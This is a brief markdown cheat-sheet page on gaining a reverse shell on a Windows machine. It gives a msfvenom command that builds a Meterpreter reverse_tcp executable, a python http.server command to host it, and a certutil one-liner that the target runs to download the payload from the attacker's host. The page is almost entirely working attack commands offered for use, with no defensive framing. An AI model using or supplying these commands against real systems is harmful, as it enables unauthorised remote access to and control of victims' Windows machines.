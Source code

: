 [../](../)

# Create reverse shell from code execution on Windows machine

First, you create reverse shell executable with msfvenom.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o rev.exe
```

Then you'll host your executable with some http server (in this example I'll use python's http.server).

```
sudo python3 -m http.server 80
```

Now you can setup your listener (multi/handler or normal netcat listener).

And lastly from target Windows machine you'll execute certutil.

```
cmd.exe /C certutil -urlcache -split -f http://<LHOST>/rev.exe rev.exe
```

For more: https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/